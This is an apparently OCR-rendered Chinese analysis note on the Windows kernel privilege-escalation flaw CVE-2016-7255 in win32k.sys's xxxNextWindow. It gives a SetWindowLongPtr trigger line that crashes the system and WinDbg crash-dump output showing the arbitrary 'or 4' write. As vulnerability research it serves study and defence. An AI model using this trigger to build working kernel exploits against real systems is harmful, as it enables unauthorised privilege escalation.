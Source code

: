 # CVE-2016-7255_Win内核提权漏洞分析笔记

@elemeta

*本文的分析是基于 https://www.exploit-db.com/exploits/41015/ 的提权代码写的*

## 漏洞描述

漏洞出现在win32k.sys的xxxNextWindow函数中,该函数是用来处理ALT-TAB进程切换窗口的，
由NtSetWindowLongPtr()设置的不合适的参数可以在xxxNextWindow中给任意内存地址进行
or 0x4操作。

## 漏洞分析

- 实验环境：Windows 7 SP1 x64 (6.1.7601.17514)
- WIN32K.SYS：md5 = a89392a32ba98468710fd7e38318934b
- 分析工具：WinDbg、IDA 6.6

漏洞实现的第一个步骤是通过SetWindowLongPtr函数的GWLP_ID属性将任意地址设置到窗口
内核对象(tagMENU)中.

    LONG_PTR WINAPI SetWindowLongPtr(
        _In_ HWND     hWnd,
        _In_ int      nIndex,
        _In_ LONG_PTR dwNewLong
    );

GWLP_ID的值是-12(0FFFFFFF4h)，用来给子窗口设置一个ID值，该值的长度是一个指针大小。
我们修改Exploit程序让操作系统触发Bugcheck：

    // 这句是关键代码
    SetWindowLongPtr(hWndChild, GWLP_ID, (LONG_PTR)0x4141414141414141);

执行后出现BSOD，分析转储文件：

    0: kd> !analyze -v
       EXCEPTION_CODE: (NTSTATUS) 0xc0000005 - 0x%p

       FAULTING_IP: 
       win32k!xxxNextWindow+99c
       fffff960`00193360 83482804        or      dword ptr [rax+28h],4   // 漏洞触发点

       CONTEXT:  fffff880040b1d10 -- (.cxr 0xfffff880040b1d10)
       rax=4141414141414141 rbx=0000000000000000 rcx=0000000000000000   // rax是写入的GWLP_ID的值
       rdx=fffff900c0800b90 rsi=fffff900c082a9d0 rdi=fffff900c082ab50
       rip=fffff96000193360 rsp=fffff880040b26f0 rbp=0000000000000002
       r8=0000000000000000  r9=0000000000000000 r10=fffff880040b2160
       r11=fffffa801a9b8750 r12=0000000000000001 r13=fffff900c082a9d0
       r14=fffff900c1ce3c30 r15=000000000000001b
       iopl=0         nv up ei pl nz na po nc
       cs=0010  ss=0018  ds=002b  es=002b  fs=0053  gs=002b             efl=00010206
       win32k!xxxNextWindow+0x99c:
       fffff960`00193360 83482804        or      dword ptr [rax+28h],4 ds:002b:41414141`41414169=????????

